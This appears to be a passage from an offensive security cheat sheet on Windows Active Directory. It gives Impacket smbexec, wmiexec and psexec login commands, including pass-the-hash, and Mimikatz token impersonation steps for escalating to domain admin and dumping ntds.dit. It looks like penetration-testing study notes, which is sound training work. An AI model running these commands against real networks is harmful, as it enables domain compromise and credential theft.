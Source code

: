 NOTE: We can also use hashes instead of password

> smbexec.py domain/username@IPADDRESS  
               OR
> smbexec.py domain/username@IPADDRESS -hashes FullHash   (same syntax for below)  

> wmiexec.py domain/username@IPADDRESS            

> psexec.py domain/username@IPADDRESS         


## Token Impersonation

https://adsecurity.org/?page_id=1821#TOKENElevate
https://steflan-security.com/linux-privilege-escalation-token-impersonation/

Whenever a user logs in a machone,windows create a token called delegate token and injects into session.If we have got any access of the machine,we can steal the token and impersonate as that user.If a domain admin logs in the machine,then his token is also available and we can simply impersonate as domain admin using that token.We can then dump ntds.dit and own the domain.

Advice : move from machine to machine and try to find domainadmins token for a easy final win.Try this attack in every machine we get access to


NOTE:Local admin required


Note : If we are administrator or similiar privileges but we are getting error on running mimikatz , list down the process and migrate to a process  running as administrator . Same goes for if we are system but our process might be in administrator contex

### Using Mimikatz


run mimikatz

1. run this command 

> token::elevate (impersonate local admin)

or

> token::elevate /domainadmin (impersonate domain admin)

2. NOw run

> token::run /process:cmd.exe

3. Optional commands

> ts::sessions (active sessions)

> token::whoami (current user context)

> token::list (see all available tokens)

> token::revert (revert the token)





